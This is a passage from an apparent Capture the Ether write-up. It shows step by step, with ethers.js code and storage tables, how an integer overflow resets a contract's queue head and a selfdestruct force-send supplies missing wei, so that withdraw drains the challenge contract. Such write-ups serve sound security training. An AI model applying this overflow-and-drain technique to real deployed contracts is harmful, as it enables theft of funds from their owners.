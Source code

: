    The contract's storage is now:

    | Var          | Value                                                                          |
    | ------------ | ------------------------------------------------------------------------------ |
    | queue.length | 2                                                                              |
    | head         | 115792089237316195423570985008687907853269984665640564039457584007913129553536 |
    | balance      | 1                                                                              |

2) Our `head` variable is a garbage value and we need to reset it to `0` so we can `withdraw` the first entry with the 1 ether amount. We chose the previously added queue item in a way such that it overflows the `timestamp` check when we call `upsert` a second time with `timestamp = 0`. This resets the `head` pointer to zero and pushes a queue item with a timestamp in the past.

    ```javascript
    const ZERO = `0` // will be head value
    tx = await contract.upsert(`2`, ZERO, {
      value: `2`,
    })
    ```

    | Var          | Value |
    | ------------ | ----- |
    | queue.length | 3     |
    | head         | 0     |
    | balance      | 3     |

3) Finally, we'd like to call `withdraw(2)` now but it would fail at this point because it tries to withdraw too much. As mentioned, when we call `upsert` with `msg.value`, the pushed queue item is stored with an amount of `msg.value + 1`, which means the contract will revert the transaction as it's missing two wei (we called `upsert` twice). We can re-use our force-send contract of the _Retirement fund_ challenge to send the missing two wei to the contract. Then our `withdraw(2)` call passes and withdraws all tokens from the contract, solving the challenge.

    ```javascript
    // we cannot withdraw all of it now because the contract only contains 1 + 2 = 3 wei
    // but new queue items' .amount sums up to 2 + 3 = 5 wei
    // so need to add at least 2 more wei
    // use a selfdestruct wei transfer bypass first to get to the correct balance
    const attackerFactory = await ethers.getContractFactory("RetirementFundAttacker");
    attacker = await attackerFactory.deploy(contract.address, {
      value: ethers.utils.parseUnits(`2`, `wei`)
    });
    await eoa.provider!.waitForTransaction(attacker.deployTransaction.hash)

    // trigger head overflow, use just inserted contribution (index 2) to bypass
    // timestamp check and withdraw from head=0..2=index
    tx = await contract.withdraw(`2`);
    ```


# [Accounts](https://capturetheether.com/challenges/accounts/)
